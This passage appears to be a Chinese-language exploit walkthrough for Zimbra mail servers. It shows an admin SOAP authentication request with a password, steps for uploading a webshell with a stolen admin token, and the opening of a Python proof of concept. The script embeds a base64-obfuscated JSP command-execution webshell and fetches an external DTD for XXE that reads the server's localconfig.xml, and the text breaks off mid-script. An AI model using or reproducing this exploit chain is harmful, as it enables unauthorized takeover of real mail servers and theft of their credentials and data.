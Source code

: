 ```bash
       <context xmlns="urn:zimbra">  
           <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851"/>  
       </context>  
   </soap:Header>  
   <soap:Body>  
     <AuthRequest xmlns="urn:zimbraAdmin">  
        <account by="adminName">zimbra</account>  
        <password>GzXaU76_s5</password>  
     </AuthRequest>  
   </soap:Body>  
</soap:Envelope>
```

第四步、上传webshell

![](images/15896909347302.png)


将上一步获取的admin权限token添加到cookie中，然后上传webshell。

Webshell路径为/downloads/k4x6p.jsp，访问该webshell时需要在cookie中添加admin_toke。

你可以利用此webshell在其他无需cookie即可访问的目录里创建一个可用菜刀连接的小马。

![](images/15896909420148.png)


poc

https://github.com/ianxtianxt/ZimbraExploit


```python
#coding=utf8
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
base_url=sys.argv[1]
base_url=base_url.rstrip("/")
#upload file name and content
#modify by k8gege
#Connect "shell.jsp" using K8fly CmdShell
#Because the CMD parameter is encrypted using Base64(bypass WAF)
filename = "shell.jsp"
fileContent = r'<%@page import="java.io.*"%><%@page import="sun.misc.BASE64Decoder"%><%try {String cmd = request.getParameter("tom");String path=application.getRealPath(request.getRequestURI());String dir="weblogic";if(cmd.equals("NzU1Ng")){out.print("[S]"+dir+"[E]");}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String xxcmd = new String(binary);Process child = Runtime.getRuntime().exec(xxcmd);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) {e.printStackTrace();}} catch (IOException e) {System.err.println(e);}%>'
print(base_url)
#dtd file url
dtd_url="https://k8gege.github.io/zimbra.dtd"
"""
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
"""
xxe_data = r"""<!DOCTYPE Autodiscover [
        <!ENTITY % dtd SYSTEM "{dtd}">
        %dtd;
        %all;
        ]>
```